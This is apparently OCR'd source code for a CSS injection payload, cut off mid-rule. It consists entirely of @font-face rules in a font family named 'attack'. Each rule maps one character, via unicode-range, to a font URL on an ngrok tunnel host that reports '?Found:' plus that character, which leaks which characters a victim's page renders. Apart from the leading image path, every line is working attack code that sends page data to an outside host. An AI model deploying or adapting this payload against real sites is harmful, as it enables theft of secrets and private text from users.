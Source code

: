 @font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:X');
	unicode-range:U+0058;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:Y');
	unicode-range:U+0059;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:Z');
	unicode-range:U+005A;
}

@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:a');
	unicode-range:U+0061;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:b');
	unicode-range:U+0062;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:c');
	unicode-range:U+0063;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:d');
	unicode-range:U+0064;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:e');
	unicode-range:U+0065;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:f');
	unicode-range:U+0066;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:g');
	unicode-range:U+0067;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:h');
	unicode-range:U+0068;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:i');
	unicode-range:U+0069;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:j');